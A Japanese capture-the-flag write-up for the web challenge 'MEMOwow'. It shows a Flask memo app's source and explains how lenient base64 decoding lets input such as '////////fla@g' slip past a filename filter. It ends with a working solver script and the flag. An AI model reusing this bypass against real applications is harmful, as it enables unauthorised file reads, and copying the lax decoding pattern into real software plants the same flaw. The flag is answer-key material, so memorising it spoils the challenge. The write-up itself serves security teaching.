




# MEMOwow

## 問題文
素晴らしいメモアプリを作ったよ。  
覚える情報量が増えているって???  

[http://133.130.100.34:31415](http://133.130.100.34:31415)  

Hint  
wow  

## 難易度
**medium**  

## 作問にあたって
Base64でエンコードすると攻撃文字列になるXSSなど作りたいなと思っていました(無理)。  
仕方がないので文字列/flagがBase64で作れることを利用して問題にしました。  
もう少し自然なメモアプリにもできましたが、直前の作問で非想定解が怖いため変なメモアプリにしました。  
Base64をPythonで扱う際には、`validate=True`にしましょう。  

## 解法
URLとソースコードが渡される。  
  
アクセスするとメモを保存できるサイトのようだ。  
  
メモを送信すると、メモIDが表示される。  
  
base64されていそうなので、デコードしてみる。  
```bash
$ echo -n 'U2F0b2tpKOODuzPjg7spdg==' | base64 -d
Satoki(・3・)v
```
なんとbase64されているものがメモIDになっているようだ(覚える情報量がメモより増えている)。  
メモの読み取りはこのメモIDを用いるようだ。  
  
  
ソースを読むと実装は以下のようになっている。  
```python
~~~
@app.route("/", methods=["GET"])
def index():
    if not "memo" in session:
        session["memo"] = [b"Tsukushi"]
    return render_template("index.html")


@app.route("/write", methods=["GET"])
def write_get():
    if not "memo" in session:
        return redirect(url_for("index"))
    return render_template("write_get.html")


@app.route("/read", methods=["GET"])
def read_get():
    if not "memo" in session:
        return redirect(url_for("index"))
    return render_template("read_get.html")


@app.route("/write", methods=["POST"])
def write_post():
    if not "memo" in session:
        return redirect(url_for("index"))
    memo = urllib.parse.unquote_to_bytes(request.get_data()[8:256])
    if len(memo) < 8:
        return abort(403, "これくらいの長さは記憶してください。👻")
    try:
        session["memo"].append(memo)
        if len(session["memo"]) > 5:
            session["memo"].pop(0)
        session.modified = True
        filename = base64.b64encode(memo).decode()
        with open(f"./memo/{filename}", "wb+") as f:
            f.write(memo)
    except:
        return abort(403, "エラーが発生しました。👻")
    return render_template("write_post.html", id=filename)


@app.route("/read", methods=["POST"])
def read_post():
    if not "memo" in session:
        return redirect(url_for("index"))
    filename = urllib.parse.unquote_to_bytes(request.get_data()[7:]).replace(b"=", b"")
    filename = filename + b"=" * (-len(filename) % 4)
    if (
        (b"." in filename.lower())
        or (b"flag" in filename.lower())
        or (len(filename) < 8 * 1.33)
    ):
        return abort(403, "不正なメモIDです。👻")
    try:
        filename = base64.b64decode(filename)
        if filename not in session["memo"]:
            return abort(403, "メモが見つかりません。👻")
        filename = base64.b64encode(filename).decode()
        with open(f"./memo/{filename}", "rb") as f:
            memo = f.read()
    except:
        return abort(403, "エラーが発生しました。👻")
    return render_template("read_post.html", id=filename, memo=memo.decode())
~~~
```
`/write`ではなぜか`request.get_data()[8:256]`でメモを取得し、8文字以上であることをチェックした後に`session["memo"]`に追加している。  
さらに、メモをbase64エンコードしたものをファイル名にし、メモをファイルとして保存している。  
そのファイル名をメモIDとしてユーザに返している。  
`/read`ではメモIDを受け取り、base64デコードした結果が`session["memo"]`に入っている場合(自分で作成したメモである場合)のみメモIDをファイル名としてファイルを読み取っている。  
ただし、`.`や`flag`でパストラバーサルやフラグの読み取りはできないようになっている。  
Dockerfileを見ると、読み込み専用で`/var/www/memo/flag`にフラグが書かれているようだ。  
```Dockerfile
FROM ubuntu:22.04

ENV DEBIAN_FRONTEND noninteractive

RUN apt-get -y update --fix-missing && apt-get -y upgrade
RUN apt-get -y install python3 python3-pip

RUN mkdir /var/www
WORKDIR /var/www
COPY ./ ./

RUN pip3 install -r requirements.txt

ENV LANG C.UTF-8

RUN chmod 755 -R /var/www
RUN chmod 777 -R /var/www/memo
RUN chmod 644 /var/www/memo/flag
RUN chmod 644 /var/www/memo/VHN1a3VzaGk=
RUN adduser -u 1000 memowow
USER memowow

CMD ["uwsgi", "--ini", "/var/www/uwsgi.ini"]
```
まずは`session["memo"]`のチェックを無視して、`/var/www/memo/flag`を読み取ることを考える。  
`.`と`flag`を使わずに`flag`ファイルを指定できないかと考えると、一度デコードした後に再度エンコードしていることに気づく。  
入力されたファイル名を使えばよいのに不自然だ(メモアプリ全体が不自然だが)。  
文字列`flag`を含んでいないが、デコードして再度エンコードして`flag`となる入力はないだろうか？  
```bash
$ python
~~~
>>> import base64
>>> base64.b64decode("flag")
b'~V\xa0'
>>> base64.b64decode("fla@g")
b'~V\xa0'
base64.b64encode(base64.b64decode("fla@g"))
b'flag'
```
試すと`fla@g`などbase64に関連しない文字は無視されるようだ。  
これで`flag`ファイルを読み取り先として指定できるが、`session["memo"]`の問題がある。  
base64エンコードした結果がファイル名、つまり`flag`となる必要があるので、文字列`flag`をデコードしたバイト列をメモとして与えてやればよい。  
書き込みは禁止されているので`/var/www/memo/flag`は書き換えられないが`session["memo"]`には追加される。  
これで`flag`ファイルを読み取れるかと思うが、メモには8文字以上の制限がある。  
```bash
>>> base64.b64decode("flag")
b'~V\xa0'
len(base64.b64decode("flag"))
3
```
ソースコードをもう一度読むと`with open(f"./memo/{filename}", "rb") as f:`となっている。  
`open`は`/`がいくつあってもよいので、複数つけて8文字以上となるものにすればよい。  
`Incorrect padding`に注意する。  
```bash
>>> base64.b64decode("////////flag")
b'\xff\xff\xff\xff\xff\xff~V\xa0'
>>> len(base64.b64decode("////////flag"))
9
```
必然的に読み取るファイルも`////////flag`と指定する。  
以下のsolver.pyで行う。  
```python
import re
import base64
import requests

URL = "http://133.130.100.34:31415/"

session = requests.Session()

session.get(f"{URL}")

res = session.post(f"{URL}/write", data={"content": base64.b64decode(b"////////flag")})
print(f"[POST] /write: {res.status_code}")

res = session.post(f"{URL}/read", data={"memoid": "////////fla@g"})
print(f"[POST] /read: {res.status_code}")
flag = re.search("TsukuCTF23{.*?}", res.text)
print(f"[FLAG] {flag.group()}")
```
実行する。  
```bash
$ python solver.py
[POST] /write: 403
[POST] /read: 200
[FLAG] TsukuCTF23{b45364_50m371m35_3xh1b175_my573r10u5_b3h4v10r}
```
flagが得られた。  

## TsukuCTF23{b45364_50m371m35_3xh1b175_my573r10u5_b3h4v10r}
